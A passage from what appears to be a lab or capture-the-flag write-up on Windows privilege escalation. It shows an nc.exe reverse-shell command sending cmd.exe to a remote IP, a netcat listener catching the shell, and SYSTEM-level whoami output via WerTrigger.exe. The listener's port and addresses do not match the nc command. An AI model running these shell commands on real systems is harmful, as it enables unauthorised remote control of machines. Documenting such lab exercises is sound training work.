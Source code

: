 ```
c:/xampp/htdocs/uploads/nc.exe 192.168.49.70 7892 -e cmd.exe
```

Note : WerTrigger.exe will not produce any output and will just wait for you to type the instructions you want to perform.

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.118.23] from (UNKNOWN) [192.168.120.107] 49998
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname 
whoami && hostname 
nt authority\system
SERVER

C:\Windows\system32>

We now have system level access on the target machine!